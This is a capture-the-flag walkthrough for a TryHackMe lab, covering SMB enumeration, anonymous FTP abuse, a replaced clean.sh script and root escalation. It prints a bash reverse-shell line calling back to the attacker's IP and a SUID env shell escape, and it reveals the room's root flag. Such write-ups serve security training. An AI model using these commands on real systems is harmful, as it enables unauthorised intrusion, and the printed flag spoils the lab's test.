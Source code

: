 #   Tryhackme - Anonymous V6
##  export IP=

##  Walkthrough by:
```
Shaswata Saha
21-07-2023
12:33AM
```

##  Steps :
1.  Nmap scan:

2.  No http port so no website or gobuster scan.

3.  Smb client present so :
```bash
┌──(subhro1530㉿subhro)-[~]
└─$ smbclient -L \\anonymous -I 10.10.2.178
Password for [WORKGROUP\subhro1530]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS

```

4.  Getting to the pics folder of SMB:
```bash
┌──(subhro1530㉿subhro)-[~/Desktop/tryhackme/AnonymousV6]
└─$ smbclient //10.10.2.178/pics    
Password for [WORKGROUP\subhro1530]:
Try "help" to get a list of possible commands.
smb: \> get *
NT_STATUS_OBJECT_NAME_INVALID opening remote file \*
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020

                20508240 blocks of size 1024. 13306800 blocks available
smb: \> get corgo2.jpg 
getting file \corgo2.jpg of size 42663 as corgo2.jpg (19.2 KiloBytes/sec) (average 19.2 KiloBytes/sec)
smb: \> get puppos.jpeg 
getting file \puppos.jpeg of size 265188 as puppos.jpeg (70.8 KiloBytes/sec) (average 51.6 KiloBytes/sec)
smb: \> ^C

```
But the data is of no use.

5.  Getting to the ftp server anonymously . We find a _clean.sh_ file which is being run by the shell. So lets upload a reverse shell here in the name of _clean.sh_.

6.  Getting a bash reverse shell & changing contents of __clean.sh__:
```bash
┌──(subhro1530㉿subhro)-[~/Desktop/tryhackme/AnonymousV6]
└─$ cat clean.sh
#!/bin/bash
bash -i >& /dev/tcp/10.17.28.202/9999 0>&1  
```

7.  Uploading it to the ftp server. Getting a reverse shell on the port as well.

8.  We get the user flag..!

9.  ### Privelege escalation:
```bash
$ /usr/bin/env /bin/sh -p
/usr/bin/env /bin/sh -p
```
This code will spawn a root shell from the env folder which is vulnerable.

```bash
# ls
ls
pics  user.txt
# cd /root
cd /root
# ls
ls
root.txt
# cat root.txt 
cat root.txt
4d930091c31a622a7ed10f27999af363
# 
```

We hacked the root..!
